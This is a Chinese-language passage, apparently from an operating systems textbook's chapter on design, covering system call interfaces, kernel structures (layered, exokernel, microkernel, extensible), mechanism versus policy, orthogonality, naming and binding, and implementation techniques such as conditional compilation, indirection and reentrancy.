打开一个真正的磁盘文件和用户终端。随后的语句可以使用fd1和fd2分别读写它们。从这一时刻起，在访问文件和访问终端之间并不存在差异，只不过在终端上寻道是不允许的。
UNIX不但统一了文件和I/O设备，它还允许像访问文件一样通过管道访问其他进程。此外，当支持映射文件时，一个进程可以得到其自身的虚拟内存，就像它是一个文件一样。最后，在支持/proc文件系统的UNIX版本中，C语句
fd3=open("/proc/501",O_RDWR);
允许进程（尝试）访问进程501的内存，使用文件描述符fd3进行读和写，这在某种程度上是有益的，例如对于一个调试器。
Windows Vista更进一步，它试图使所有一切看起来像是一个对象。一旦一个进程获得了一个指向文件、进程、信号量、邮箱或者其他内核对象的有效句柄，它就可以在其上执行操作。这一范型甚至比UNIX更加一般化，并且比FORTRAN要一般化得多。
统一的范型还出现在其他上下文中，其中在这里值得一提的是Web。Web背后的范型是充满了文档的超空间，每一个文档具有一个URL。通过键入一个URL或者点击被URL所支持的条目，你就可以得到该文档。实际上，许多“文档”根本就不是文档，而是当请求到来时由程序或者命令行解释器脚本生成的。例如，当用户询问一家网上商店关于一位特定艺术家的CD清单时，文档由一个程序即时生成；在查询未做出之前该文档的确并不存在。
至此我们已经看到了4种事例，即所有一切都是磁带、文件、对象或者文档。在所有这4种事例中，意图是统一数据、设备和其他资源，从而使它们更加易于处理。每一个操作系统都应该具有这样的统一数据范型。
如果一个人相信Corbató的机制最少化的格言，那么操作系统应该提供恰好够用的系统调用，并且每个系统调用都应该尽可能简单（但不能过于简单）。统一的数据范型在此处可以扮演重要的角色。例如，如果文件、进程、I/O设备以及更多的东西都可以看作是文件或者对象，那么它们就都能够用单一的read系统调用来读取。否则，可能就有必要具有read_file、read_proc以及read_tty等单独的系统调用。
在某些情况下，系统调用可能看起来需要若干变体，但是通常更好的实现是具有处理一般情况的一个系统调用，而由不同的库过程向程序员隐藏这一事实。例如，UNIX具有一个系统调用exec，用来覆盖一个进程的虚拟地址空间。最一般的调用是：
exec(name,argp,envp);
该调用加载可执行文件name，并且给它提供由argp所指向的参数和envp所指向的环境变量。有时明确地列出参数是十分方便的，所以库中包含如下调用的过程：
execl(name,arg0,arg1,...,argn,0);
execle(name,arg0,arg1,...,argn,envp);
所有这些过程所做的事情是将参数粘连在一个数组中，然后调用exec来做工作。这一安排达到了双赢目的：单一的直接系统调用使操作系统保持简单，而程序员得到了以各种方法调用exec的便利。
当然，试图拥有一个调用来处理每一种可能的情况很可能难以控制。在UNIX中，创建一个进程需要两个调用：fork然后是exec，前者不需要参数，后者具有3个参数。相反，创建一个进程的Win32 API调用CreateProcess具有10个参数，其中一个参数是指向一个结构的指针，该结构具有另外18个参数。
很久以前，有人曾经问过这样的问题：“如果我们省略了这些东西会不会发生可怕的事情？”诚实的回答应该是：“在某些情况下程序员可能不得不做更多的工作以达到特定的效果，但是最终的结果将会是一个更简单、更小巧并且更可靠的操作系统。”当然，主张10+18个参数版本的人可能会说：“但是用户喜欢所有这些特性。”对此的反驳可能会是：“他们更加喜欢使用很少内存并且从来不会崩溃的系统。”在更多功能性和更多内存代价之间的权衡是显而易见的，并且可以从价格上来衡量（因为内存的价格是已知的）。然而，每年由于某些特性而增加的崩溃次数是难于估算的，并且如果用户知道了隐藏的代价是否还会做出同样的选择呢？这一影响可以在Tanenbaum软件第一定律中做出总结：
添加更多的代码就是添加更多的程序错误。
添加更多的功能特性就要添加更多的代码，因此就要添加更多的程序错误。相信添加新的功能特性而不会添加新的程序错误的程序员要么是计算机的生手，要么就是相信牙齿仙女（据说会在儿童掉落在枕边的幼齿旁放上钱财的仙女）正在那里监视着他们。
简单不是设计系统调用时出现的惟一问题。一个重要的考虑因素是Lampson（1984）的口号：
不要隐藏能力。
如果硬件具有极其高效的方法做某事，它就应该以简单的方法展露给程序员，而不应该掩埋在某些其他抽象的内部。抽象的目的是隐藏不合需要的特性，而不是隐藏值得需要的特性。例如，假设硬件具有一种特殊的方法以很高的速度在屏幕上（也就是视频RAM中）移动大型位图，正确的做法是要有一个新的系统调用能够得到这一机制，而不是只提供一种方法将视频RAM读到内存中并且再将其写回。新的系统调用应该只是移动位而不做其他事情。如果系统调用速度很快，用户总可以在其上建立起更加方便的接口。如果它的速度慢，没有人会使用它。
另一个设计问题是面向连接的调用与无连接的调用。读文件的标准UNIX系统调用和Win32系统调用是面向连接的。首先你要打开一个文件，然后读它，最后关闭它。某些远程文件访问协议也是面向连接的。例如，要使用FTP，用户首先要登录到远程计算机上，读文件，然后注销。
另一方面，某些远程文件访问协议是无连接的，例如Web协议（HTTP）。要读一个Web页面你只要请求它就可以了；不存在事先建立连接的需要（TCP连接是需要的，但是这处于协议的低层；访问Web本身的HTTP协议是无连接的）。
任何面向连接的机制与无连接的机制之间的权衡在于建立连接的机制（例如打开文件）要求的额外开销，以及在后续调用（可能很多）中避免进行连接所带来的好处。对于单机上的文件I/O而言，由于建立连接的代价很低，标准的方法（首先打开，然后使用）可能是最好的方法。对于远程文件系统而言，两种方法都可以采用。
与系统调用接口有关的另一个问题是接口的可见性。POSIX强制的系统调用列表很容易找到。所有UNIX系统都支持这些系统调用，以及少数其他系统调用，但是完全的列表总是公开的。相反，Microsoft从未将Windows Vista系统调用列表公开。作为替代，Win32 API和其他API被公开了，但是这些API包含大量的库调用（超过10 000个），只有很少数是真正的系统调用。将所有系统调用公开的论据是可以让程序员知道什么是代价低廉的（在用户空间执行的函数），什么是代价昂贵的（内核调用）。不将它们公开的论据是这样给实现提供了灵活性，无须破坏用户程序就可以修改实际的底层系统调用，以便使其工作得更好。
看过用户界面和系统调用接口后，现在让我们来看一看如何实现一个操作系统。在下面8个小节，我们将分析涉及实现策略的某些一般的概念性问题。在此之后，我们将看一看某些低层技术，这些技术通常是十分有益的。
实现必须要做出的第一个决策可能是系统结构应该是什么。我们在1.7节分析了主要的可能性，在这里要重温一下。一个无结构的单块式设计实际上并不是一个好主意，除非可能是用于电冰箱中的微小的操作系统，但是即使在这里也是可争论的。
1.分层系统
多年以来很好地建立起来的一个合理的方案是分层系统。Dijkstra的THE系统（图1-25）是第一个分层操作系统。UNIX和Windows Vista也具有分层结构，但是在这两个系统中分层更是一种试图描述系统的方法，而不是用于建立系统的真正的指导原则。
对于一个新系统，选择走这一路线的设计人员应该首先非常仔细地选择各个层次，并且定义每个层次的功能。底层应该总是试图隐藏硬件最糟糕的特异性，就像图11-7中HAL所做的那样。或许下一层应该处理中断、上下文切换以及MMU，从而在这一层的代码大部分是与机器无关的。在这一层之上，不同的设计人员可能具有不同的口味（与偏好）。一种可能性是让第3层管理线程，包括调度和线程间同步，如图13-2所示。此处的思想是从第4层开始，我们拥有适当的线程，这些线程可以被正常地调度，并且使用标准的机制（例如互斥量）进行同步。
在第4层，我们可能会找到设备驱动程序，每个设备驱动程序作为一个单独的线程而运行，具有自己的状态、程序计数器、寄存器等，可能（但是不必要）处于内核地址空间内部。这样的设计可以大大简化I/O结构，因为当一个中断发生时，它就可以转化成在一个互斥量上的unlock，并且调用调度器以（潜在地）调度重新就绪的线程，而该线程曾阻塞在该互斥量之上。MINIX使用了这一方案，但是在UNIX、Linux和Windows Vista中，中断处理程序运行在一类“无主地带”中，而不是作为适当的线程可以被调度、挂起等。由于任何一个操作系统的大多数复杂性在于I/O之中，使其更加易于处理和封装的任何技术都是值得考虑的。
在第4层之上，我们预计会找到虚拟内存、一个或多个文件系统以及系统调用接口。如果虚拟内存处于比文件系统更低的层次，那么数据块高速缓存就可以分页出去，使虚拟内存管理器能够动态地决定在用户页面和内核页面（包括高速缓存）之间应该怎样划分实际内存。Windows Vista就是这样工作的。
2.外内核
虽然分层在系统设计人员中间具有支持者，但是还有另一个阵营恰恰持有相反的观点（Engler等人，1995）。他们的观点基于端到端的论据（end-to-end argument）（Saltzer等人，1984）。这一概念说的是，如果某件事情必须由用户程序本身去完成，在一个较低的层次做同样的事情就是浪费。
考虑该原理对于远程文件访问的一个应用。如果一个系统担心数据在传送中被破坏，它应该安排每个文件在写的时候计算校验和，并且校验和与文件一同存放。当一个文件通过网络从源盘传送到目标进程时，校验和也被传送，并且在接收端重新计算。如果两者不一致，文件将被丢弃并且重新传送。
校验比使用可靠的网络协议更加精确，因为除了位传送错误以外，它还可以捕获磁盘错误、内存错误、路由器中的软件错误以及其他错误。端到端的论据宣称使用一个可靠的网络协议是不必要的，因为端点（接收进程）拥有足够的信息以验证文件本身的正确性。在这一观点中，使用可靠的网络协议的惟一原因是为了效率，也就是说，更早地捕获与修复传输错误。
端到端的论据可以扩展到几乎所有操作系统。它主张不要让操作系统做用户程序本身可以做的任何事情。例如，为什么要有一个文件系统？只要让用户以一种受保护的方式读和写原始磁盘的一个部分就可以了。当然，大多数用户喜欢使用文件，但是端到端的论据宣称，文件系统应该是与需要使用文件的任何程序相链接的库过程。这一方案使不同的程序可以拥有不同的文件系统。这一论证线索表明操作系统应该做的全部事情是在竞争的用户之间安全地分配资源（例如CPU和磁盘）。Exokernel是一个根据端到端的论据建立的操作系统（Engler等人，1995）。
3.基于微内核的客户-服务器系统
在让操作系统做每件事情和让操作系统什么也不做之间的折衷是让操作系统做一点事情。这一设计导致微内核的出现，它让操作系统的大部分作为用户级的服务器进程而运行，如图13-3所示。在所有设计中这是最模块化和最灵活的。在灵活性上的极限是让每个设备驱动程序也作为一个用户进程而运行，从而完全保护内核和其他驱动程序，但是让设备驱动程序运行在内核会增加模块化程度。
当设备驱动程序运行在内核态时，可以直接访问硬件设备寄存器，否则需要某种机制以提供这样的访问。如果硬件允许，可以让每个驱动程序进程仅访问它需要的那些I/O设备。例如，对于内存映射的I/O，每个驱动程序进程可以拥有页面将它的设备映射进来，但是没有其他设备的页面。如果I/O端口空间可以部分地加以保护，就可以保证只有相应的正确部分对每个驱动程序可用。
即使没有硬件帮助可用，仍然可以设法使这一思想可行。此时需要的是一个新的系统调用，该系统调用仅对设备驱动程序进程可用，它提供一个（端口，取值）对列表。内核所做的是首先进行检查以了解进程是否拥有列表中的所有端口，如果是，它就将相应的取值复制到端口以发起设备I/O。类似的调用可以用一种受保护的方式读I/O端口。
这一方法使设备驱动程序避免了检查（并且破坏）内核数据结构，这（在很大程度上）是一件好事情。一组类似的调用可以用来让驱动程序进程读和写内核表格，但是仅以一种受控的方式并且需要内核的批准。
这一方法的主要问题，并且一般而言是针对微内核的主要问题，是额外的上下文切换导致性能受到影响。然而，微内核上的所有工作实际上是许多年前当CPU还非常缓慢的时候做的。如今，用尽CPU的处理能力并且不能容忍微小性能损失的应用程序是十分稀少的。毕竟，当运行一个字处理器或Web浏览器时，CPU可能有95%的时间是空闲的。如果一个基于微内核的操作系统将一个不可靠的3GHz的系统转变为一个可靠的2.5GHz的系统，可能很少有用户会抱怨。毕竟，仅仅在几年以前当他们得到具有1GHz的速度（就当时而言十分惊人）的系统时，大多数用户是相当快乐的。
4.可扩展的系统
对于上面讨论的客户-服务器系统，思想是让尽可能多的东西脱离内核。相反的方法是将更多的模块放到内核中，但是以一种“受保护的”方式。当然，这里的关键字是“受保护的”。我们在9.5.6节中研究了某些保护机制，这些机制最初打算用于通过Internet引入小程序，但是对于将外来的代码插入到内核中的过程同样适用。最重要的是沙盒技术和代码签名，因为解释对于内核代码来说实际上是不可行的。
当然，可扩展的系统自身并不是构造一个操作系统的方法。然而，通过以一个只是包含保护机制的最小系统为开端，然后每次将受保护的模块添加到内核中，直到达到期望的功能，对于手边的应用而言一个最小的系统就建立起来了。按照这一观点，对于每一个应用，通过仅仅包含它所需要的部分，就可以裁剪出一个新的操作系统。Paramecium就是这类系统的一个实例（Van Doorn,2001）。
5.内核线程
此处，另一个相关的问题是系统线程，无论选择哪种结构模型。有时允许存在与任何用户进程相隔离的内核线程是很方便的。这些线程可以在后台运行，将脏页面写入磁盘，在内存和磁盘之间交换进程，如此等等。实际上，内核本身可以完全由这样的线程构成，所以当一个用户发出系统调用时，用户的线程并不是在内核模式中运行，而是阻塞并且将控制传给一个内核线程，该内核线程接管控制以完成工作。
除了在后台运行的内核线程以外，大多数操作系统还要启动许多守护进程。虽然这些守护进程不是操作系统的组成部分，但是它们通常执行“系统”类型的活动。这些活动包括接收和发送电子邮件，并且对远程用户各种各样的请求进行服务，例如FTP和Web网页。
另一个有助于体系结构一致性的原理是机制与策略的分离，该原理同时还有助于使系统保持小型和良好的结构。通过将机制放入操作系统而将策略留给用户进程，即使存在改变策略的需要，系统本身也可以保持不变。即使策略模块必须保留在内核中，如果可能，它也应该与机制相隔离，这样策略模块中的变化就不会影响机制模块。
为了使策略与机制之间的划分更加清晰，让我们考虑两个现实世界的例子。第一个例子，考虑一家大型公司，该公司拥有负责向员工发放薪水的工资部门。该部门拥有计算机、软件、空白支票、与银行的契约以及更多的机制，以便准确地发出薪水。然而，策略——确定谁将获得多少薪水——是完全与机制分开的，并且是由管理部门决定的。工资部门只是做他们被吩咐做的事情。
第二个例子，考虑一家饭店。它拥有提供餐饮的机制，包括餐桌、餐具、服务员、充满设备的厨房、与信用卡公司的契约，如此等等。策略是由厨师长设定的，也就是说，厨师长决定菜单上有什么。如果厨师长决定撤掉豆腐换上牛排，那么这一新的策略可以由现有的机制来处理。
现在让我们考虑某些操作系统的例子。首先考虑线程调度。内核可能拥有一个优先级调度器，具有k个优先级。机制是一个数组，以优先级为索引，如图10-11或图11-19所示。每个数组项是处于该优先级的就绪线程列表的表头。调度器只是从最高优先级到最低优先级搜索数组，选中它找到的第一个线程。策略是设定优先级。系统可能具有不同的用户类别，每个类别拥有不同的优先级。它还可能允许用户进程设置其线程的相对优先级。优先级可能在完成I/O之后增加，或者在用完时间配额之后降低。还有众多的其他策略可以遵循，但是此处的中心思想是设置策略与执行之间的分离。
第二个例子是分页。机制涉及到MMU管理，维护占用页面与空闲页面的列表，以及用来将页面移入磁盘或者移出磁盘的代码。策略是当页面故障发生时决定做什么，它可能是局部的或全局的，基于LRU的或基于FIFO的，或者是别的东西，但是这一算法可以（并且应该）完全独立于实际管理页面的机制。
第三个例子是允许将模块装载到内核之中。机制关心的是它们如何被插入、如何被链接、它们可以发出什么调用，以及可以对它们发出什么调用。策略是确定允许谁将模块装载到内核之中以及装载哪些模块。也许只有超级用户可以装载模块，也许任何用户都可以装载被适当权威机构数字签名的模块。
良好的系统设计在于单独的概念可以独立地组合。例如，在C语言中，存在基本的数据类型，包括整数、字符和浮点数，还存在用来组合数据类型的机制，包括数组、结构和联合。这些概念独立地组合，允许拥有整数数组、字符数组、浮点数的结构和联合成员等。实际上，一旦定义了一个新的数据类型，如整数数组，就可以如同一个基本数据类型一样使用它，例如作为一个结构或者一个联合的成员。独立地组合单独的概念的能力称为正交性（orthogonality），它是简单性和完整性原理的直接结果。
正交性概念还以各种各样的伪装出现在操作系统中，Linux的clone系统调用就是一个例子，它创建一个新线程。该调用有一个位图作为参数，它允许单独地共享或复制地址空间、工作目录、文件描述符以及信号。如果复制所有的东西，我们将得到一个进程，就像调用fork一样。如果什么都不复制，则是在当前进程中创建一个新线程。然而，创建共享的中间形式同样也是可以的，而这在传统的UNIX系统中是不可能的。通过分离各种特性并且使它们正交，是可以做到更好地控制自由度的。
正交性的另一个应用是Windows Vista中进程概念与线程概念的分离。进程是一个资源容器，既不多也不少。线程是一个可调度的实体。当把另一个进程的句柄提供给一个进程时，它拥有多少个线程都是没有关系的。当一个线程被调度时，它从属于哪个进程也是没有关系的。这些概念是正交的。
正交性的最后一个例子来自UNIX。在UNIX中，进程的创建分两步完成：fork和exec。创建新的地址空间与用新的内存映像装载该地址空间是分开的，这就为在两者之间做一些事情提供了可能（例如处理文件描述符）。在Windows Vista中，这两个步骤不能分开，也就是说，创建新的地址空间与填充该地址空间的概念不是正交的。Linux的clone加exec序列是更加正交的，因为存在更细粒度的构造块可以利用。作为一般性的规则，拥有少量能够以很多方式组合的正交元素，将形成小巧、简单和精致的系统。
操作系统使用的最长久的数据结构具有某种类型的名字或标识符，通过名字或标识符就可以引用这些数据结构。显而易见的例子有注册名、文件名、设备名、进程ID等。在操作系统的设计与实现中，如何构造和管理这些名字是一个重要的问题。
为人们的使用而设计的名字是ASCII或Unicode形式的字符串，并且通常是层次化的。目录路径，例如/usr/ast/books/mos2/chap-12，显然是层次化的，它指出从根目录开始搜索的一个目录序列。URL也是层次化的。例如，www.cs.vu.nl/～ast/表示一个特定国家（nl）的一所特定大学（vu）的一个特定的系（cs）内的一台特定的机器（www）。斜线号后面的部分指出的是目标机器上的一个特定的文件，在这种情形中，按照惯例，该文件是ast主目录中的www/index.html。注意URL（以及一般的DNS地址，包括电子邮件地址）是“反向的”，从树的底部开始并且向上走，这与文件名有所不同，后者从树的顶部开始并且向下走。看待这一问题的另一种方法是从头写这棵树是从左开始向右走，还是从右开始向左走。
命名经常在外部和内部两个层次上实现。例如，文件总是具有字符串名字供人们使用。此外，几乎总是存在一个内部名字由系统使用。在UNIX中，文件的实际名字是它的i节点号，在内部根本就不使用ASCII名字。实际上，它甚至不是惟一的，因为一个文件可能具有多个链接指向它。在Windows Vista中，相仿的内部名字是MFT中文件的索引。目录的任务是在外部名字和内部名字之间提供映射，如图13-4所示。
在许多情况下（例如上面给出的文件名的例子），内部名字是一个无符号整数，用作进入一个内部表格的索引。表格-索引名字的其他例子还有UNIX中的文件描述符和Windows Vista中的对象句柄。注意这些都没有任何外部表示，它们严格地被系统和运行的进程所使用。一般而言，对于当系统重新启动时就会丢失的暂时的名字，使用表格索引是一个很好的主意。
操作系统经常支持多个名字空间，既在内部又在外部。例如，在第11章我们了解了Windows Vista支持的三个外部名字空间：文件名、对象名和注册表名（并且还有我们没有考虑的活动目录名）。此外，还存在着使用无符号整数的数不清的内部名字空间，例如对象句柄、MFT项等。尽管外部名字空间中的名字都是Unicode字符串，但是在注册表中查寻一个文件名是不可以的，正如在对象表中使用MFT索引是不可以的。在一个良好的设计中，相当多的考虑花在了需要多少个名字空间，每个名字空间中名字的语法是什么，怎样分辨它们，是否存在抽象的和相对的名字，如此等等。
正如我们刚刚看到的，操作系统使用多种类型的名字来引用对象。有时在名字和对象之间的映射是固定的，但是有时不是。在后一种情况下，何时将名字与对象绑定可能是很重要的。一般而言，早期绑定（early binding）是简单的，但是不灵活，而晚期绑定（late binding）则比较复杂，但是通常更加灵活。
为了阐明绑定时机的概念，让我们看一看某些现实世界的例子。早期绑定的一个例子是某些高等学校允许父母在婴儿出生时登记入学，并且预付当前的学费。以后当学生长大到18岁时，学费已经全部付清，无论此刻学费有多么高。
在制造业中，预先定购零部件并且维持零部件的库存量是早期绑定。相反，即时制造要求供货商能够立刻提供零部件，不需要事先通知。这就是晚期绑定。
程序设计语言对于变量通常支持多种绑定时机。编译器将全局变量绑定到特殊的虚拟地址，这是早期绑定的例子。过程的局部变量在过程被调用的时刻（在栈中）分配一个虚拟地址，这是中间绑定。存放在堆中的变量（这些变量由C中的malloc或Java中的new分配）仅仅在它们实际被使用的时候才分配虚拟地址，这便是晚期绑定。
操作系统对大多数数据结构通常使用早期绑定，但是偶尔为了灵活性也使用晚期绑定。内存分配是一个相关的案例。在缺乏地址重定位硬件的机器上，早期的多道程序设计系统不得不在某个内存地址装载一个程序，并且对其重定位以便在此处运行。如果它曾经被交换出去，那么它就必须装回到相同的内存地址，否则就会出错。相反，页式虚拟内存是晚期绑定的一种形式。在页面被访问并且实际装入内存之前，与一个给定的虚拟地址相对应的实际物理地址是不知道的。
晚期绑定的另一个例子是GUI中窗口的放置。在早期图形系统中，程序员必须为屏幕上的所有图像设定绝对屏幕坐标，与此相对照，在现代GUI中，软件使用相对于窗口原点的坐标，但是在窗口被放置在屏幕上之前该坐标是不确定的，并且以后，它甚至是可能改变的。
操作系统设计人员经常被迫在静态与动态数据结构之间进行选择。静态结构总是简单易懂，更加容易编程并且用起来更快；动态结构则更加灵活。一个显而易见的例子是进程表。早期的系统只是分配一个固定的数组，存放每个进程结构。如果进程表由256项组成，那么在任意时刻只能存在256个进程。试图创建第257个进程将会失败，因为缺乏表空间。类似的考虑对于打开的文件表（每个用户的和系统范围的）以及许多其他内核表格也是有效的。
一个替代的策略是将进程表建立为一个小型表的链表，最初只有一个表。如果该表被填满，可以从全局存储池中分配另一个表并且将其链接到前一个表。这样，在全部内核内存被耗尽之前，进程表不可能被填满。
另一方面，搜索表格的代码会变得更加复杂。例如，在图13-5中给出了搜索一个静态进程表以查找给定PID，pid的代码。该代码简单有效。对于小型表的链表，做同样的搜索则需要更多的工作。
当存在大量的内存或者当表的利用可以猜测得相当准确时，静态表是最佳的。例如，在一个单用户系统中，用户不太可能立刻启动64个以上的进程，并且如果试图启动第65个进程失败了，也并不是一个彻底的灾难。
还有另一种选择是使用一个固定大小的表，但是如果该表填满了，就分配一个新的固定大小的表，比方说大小是原来的两倍。然后将当前的表项复制到新表中并且把旧表返回空闲存储池。这样，表总是连续的而不是链接的。此处的缺点是需要某些存储管理，并且现在表的地址是变量而不是常量。
对于内核栈也存在类似的问题。当一个线程切换到内核模式，或者当一个内核模式线程运行时，它在内核空间中需要一个栈。对于用户线程，栈可以初始化成从虚拟地址空间的顶部向下生长，所以大小不需要预先设定。对于内核线程，大小必须预先设定，因为栈占据了某些内核虚拟地址空间并且可能存在许多栈。问题是：每个栈应该得到多少空间？此处的权衡与进程表是类似的。
另一个静态-动态权衡是进程调度。在某些系统中，特别是在实时系统中，调度可以预先静态地完成。例如，航空公司在班机启航前几周就知道它的飞机什么时候要出发。类似地，多媒体系统预先知道何时调度音频、视频和其他进程。对于通用的应用，这些考虑是不成立的，并且调度必须是动态的。
还有一个静态-动态问题是内核结构。如果内核作为单一的二进制程序建立并且装载到内存中运行，情况是比较简单的。然而，这一设计的结果是添加一个新的I/O设备就需要将内核与新的设备驱动程序重新链接。UNIX的早期版本就是以这种方式工作的，在小型计算机环境中它相当令人满意，那时添加新的I/O设备是十分罕见的事情。如今，大多数操作系统允许将代码动态地添加到内核之中，随之而来的则是所有额外的复杂性。
虽然最好是自顶向下地设计系统，但是在理论上系统可以自顶向下或者自底向上地实现。在自顶向下的实现中，实现者以系统调用处理程序为开端，并且探究需要什么机制和数据结构来支持它们。接着编写这些过程等，直到触及硬件。
这种方法的问题是，由于只有顶层过程可用，任何事情都难于测试。出于这样的原因，许多开发人员发现实际上自底向上地构建系统更加可行。这一方法需要首先编写隐藏底层硬件的代码，特别是图11-6中的HAL。中断处理程序和时钟驱动程序也是早期就需要的。
然后，可以使用一个简单的调度器（例如轮转调度）来解决多道程序设计问题。在这一时刻，测试系统以了解它是否能够正确地运行多个进程应该是可能的。如果运转正常，此时可以开始仔细地定义贯穿系统的各种各样的表格和数据结构，特别是那些用于进程和线程管理以及后面内存管理的表格与数据结构。I/O和文件系统在最初可以等一等，用于测试和调试目的的读键盘与写屏幕的基本方法除外。在某些情况下，关键的低层数据结构应该得到保护，这可以通过只允许经由特定的访问过程来访问而实现——实际上这是面向对象的程序设计思想，不论采用何种程序设计语言。当较低的层次完成时，可以彻底地测试它们。这样，系统自底向上推进，很像是建筑商建造高层办公楼的方式。
如果有一个大型团队可用，那么替代的方法是首先做出整个系统的详细设计，然后分配不同的小组编写不同的模块。每个小组独立地测试自己的工作。当所有的部分都准备好时，可以将它们集成起来并加以测试。这一设计方式存在的问题是，如果最初没有什么可以运转，可能难于分离出一个或多个模块是否工作不正常，或者一个小组是否误解了某些其他模块应该做的事情。尽管如此，如果有大型团队，还是经常使用该方法使程序设计工作中的并行程度最大化。
我们刚刚了解了系统设计与实现的某些抽象思想，现在将针对系统实现考察一些有用的具体技术。这方面的技术很多，但是篇幅的限制使我们只能介绍其中的少数技术。
1.隐藏硬件
许多硬件是十分麻烦的，所以只好尽早将其隐藏起来（除非它要展现能力，而大多数硬件不会这样）。某些非常低层的细节可以通过如图13-2所示的HAL类型的层次得到隐藏。然而，许多硬件细节不能以这样的方式来隐藏。
值得尽早关注的一件事情是如何处理中断。中断使得程序设计令人不愉快，但是操作系统必须对它们进行处理。一种方法是立刻将中断转变成别的东西，例如，每个中断都可以转变成即时弹出的线程。在这一时刻，我们处理的是线程，而不是中断。
第二种方法是将每个中断转换成在一个互斥量上的unlock操作，该互斥量对应正在等待的驱动程序。于是，中断的惟一效果就是导致某个线程变为就绪。
第三种方法是将一个中断转换成发送给某个线程的消息。低层代码只是构造一个表明中断来自何处的消息，将其排入队列，并且调用调度器以（潜在地）运行处理程序，而处理程序可能正在阻塞等待该消息。所有这些技术，以及其他类似的技术，都试图将中断转换成线程同步操作。让每个中断由一个适当的线程在适当的上下文中处理，比起在中断碰巧发生的随意上下文中运行处理程序，前者要更加容易管理。当然，这必须高效率地进行，而在操作系统内部深处，一切都必须高效率地进行。
大多数操作系统被设计成运行在多个硬件平台上。这些平台可以按照CPU芯片、MMU、字长、RAM大小以及不能容易地由HAL或等价物屏蔽的其他特性来区分。尽管如此，人们高度期望拥有单一的一组源文件用来生成所有的版本，否则，后来发现的每个程序错误必须在多个源文件中修改多次，从而有源文件逐渐疏远的危险。
某些硬件的差异，例如RAM大小，可以通过让操作系统在引导的时候确定其取值并且保存在一个变量中来处理。内存分配器可以利用RAM大小变量来确定构造多大的数据块高速缓存、页表等。甚至静态的表格，如进程表，也可以基于总的可用内存来确定大小。
然而，其他的差异，例如不同的CPU芯片，就不能让单一的二进制代码在运行的时候确定它正在哪一个CPU上运行。解决一个源代码多个目标机的问题的一种方法是使用条件编译。在源文件中，定义了一定的编译时标志用于不同的配置，并且这些标志用来将独立于CPU、字长、MMU等的代码用括号括起。例如，设想一个操作系统运行在Pentium和UltraSPARC芯片上，这就需要不同的初始化代码。可以像图13-6a中那样编写init过程的代码。根据CPU的取值（该值定义在头文件config.h中），实现一种初始化或其他的初始化过程。由于实际的二进制代码只包含目标机所需要的代码，这样就不会损失效率。
第二个例子，假设需要一个数据类型Register，它在Pentium上是32位，在UltraSPARC上是64位。这可以由图13-6b中的条件代码来处理（假设编译器产生32位的int和64位的long）。一旦做出这样的定义（可能是在别的什么地方的头文件中），程序员就可以只需声明变量为Register类型并且确信它们将具有正确的长度。
当然，头文件config.h必须正确地定义。对于Pentium处理器，它大概是这样的：
#define CPU PENTIUM
#define WORD_LENGTH 32
为了编译针对UltraSPARC的系统，应该使用不同的config.h，其中具有针对UltraSPARC的正确取值，它或许是这样的：
#define CPU ULTRASPARC
#define WORD_LENGTH 64
一些读者可能奇怪为什么CPU和WORD_LENGTH用不同的宏来处理。我们可以很容易地用针对CPU的测试而将Register的定义用括号括起，对于Pentium将其设置为32位，对于UltraSPARC将其设置为64位。然而，这并不是一个好主意。考虑一下以后当我们将系统移植到64位Intel Itanium处理器时会发生什么事情。我们可能不得不为了Itanium而在图13-6b中添加第三个条件。通过像上面那样定义宏，我们要做的全部事情是在config.h文件中为Itanium处理器包含如下的代码行：
#define WORD_LENGTH 64
这个例子例证了前面讨论过的正交性原则。那些依赖CPU的细节应该基于CPU宏而条件编译，而那些依赖字长的细节则应该使用WORD_LENGTH宏。类似的考虑对于许多其他参数也是适用的。
2.间接
人们不时地说在计算机科学中没有什么问题不能通过另一个层次间接得到解决。虽然有些夸大其词，但是其中的确存在一定程度的真实性。让我们考虑一些例子。在基于Pentium的系统上，当一个键被按下时，硬件将生成一个中断并且将键的编号而不是ASCII字符编码送到一个设备寄存器中。此外，当此键后来被释放时，第二个中断生成，同样伴随一个键编号。间接为操作系统使用键编号作为索引检索一张表格以获取ASCII字符提供了可能，这使得处理世界上不同国家使用的许多键盘十分容易。获得按下与释放两个信息使得将任何键作为换档键成为可能，因为操作系统知道键按下与释放的准确序列。
间接还被用在输出上。程序可以写ASCII字符到屏幕上，但是这些字符被解释为针对当前输出字体的一张表格的索引。表项包含字符的位图。这一间接使得将字符与字体相分离成为可能。
间接的另一个例子是UNIX中主设备号的使用。在内核内部，有一张表格以块设备的主设备号作为索引，还有另一张表格用于字符设备。当一个进程打开一个特定的文件（例如/dev/hd0）时，系统从i节点提取出类型（块设备或字符设备）和主副设备号，并且检索适当的驱动程序表以找到驱动程序。这一间接使得重新配置系统十分容易，因为程序涉及的是符号化的设备名，而不是实际的驱动程序名。
还有另一个间接的例子出现在消息传递的系统中，该系统命名一个邮箱而不是一个进程作为消息的目的地。通过间接使用邮箱（而不是指定一个进程作为目的地），能够获得相当可观的灵活性（例如，让一位秘书处理她的老板的消息）。
在某种意义上，使用诸如
#define PROC_TABLE_SIZE 256
的宏也是间接的一种形式，因为程序员无须知道表格实际有多大就可以编写代码。一个良好的习惯是为所有的常量提供符号化的名字（有时-1、0和1除外），并且将它们放在头文件中，同时提供注释解释它们代表什么。
3.可重用性
在略微不同的上下文中重用相同的代码通常是可行的。这样做是一个很好的想法，因为它减少了二进制代码的大小并且意味着代码只需要调试一次。例如，假设用位图来跟踪磁盘上的空闲块。磁盘块管理可以通过提供管理位图的过程alloc和free得到处理。
在最低限度上，这些过程应该对任何磁盘起作用。但是我们可以比这更进一步。相同的过程还可以用于管理内存块、文件系统块高速缓存中的块，以及i节点。事实上，它们可以用来分配与回收能够线性编号的任意资源。
4.重入
重入指的是代码同时被执行两次或多次的能力。在多处理器系统上，总是存在着这样的危险：当一个CPU执行某个过程时，另一个CPU在第一个完成之前也开始执行它。在这种情况下，不同CPU上的两个（或多个）线程可能在同时执行相同的代码。这种情况必须通过使用互斥量或者某些其他保护临界区的方法进行处理。
然而，在单处理器上，问题也是存在的。特别地，大多数操作系统是在允许中断的情况下运行的。否则，将丢失许多中断并且使系统不可靠。当操作系统忙于执行某个过程P时，完全有可能发生一个中断并且中断处理程序也调用P。如果P的数据结构在中断发生的时刻处于不一致的状态，中断处理程序就会注意到它们处于不一致的状态并且失败。
